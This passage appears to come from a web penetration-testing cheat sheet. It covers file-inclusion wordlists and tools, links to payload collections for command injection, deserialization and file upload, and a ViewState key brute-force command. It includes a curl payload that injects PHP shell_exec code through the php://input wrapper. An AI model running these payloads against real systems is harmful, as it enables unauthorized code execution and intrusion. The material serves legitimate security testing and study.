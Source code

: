 
##### Wrapper input://

```
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
```

#### Useful LFI list

```
# Linux
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

# Windows
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

# Both
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
```

#### Tools

```
kadimus --url <URL>
python lfisuite.py
```

### Command injection

For command injection always use BurpSuite !

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

### Deserialization

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net
https://notsosecure.com/project-blacklist3r
https://github.com/0xacb/viewgen

```

| **Command**                                                                                                                                                                                          | **Description**                                    |     |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------- | --- |
| `.\AspDotNetWrapper.exe --keypath .\MachineKeys.txt --TargetPagePath "/PATH" --encrypteddata VIEWSTATE --decrypt --purpose=viewstate --modifier=VIEWSTATEGENERATORVALUE -f out.txt --IISDirPath="/"` | Bruteforce encryption key for Encrypted Viewstate. |     |

### File upload

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
```

### SQL injection
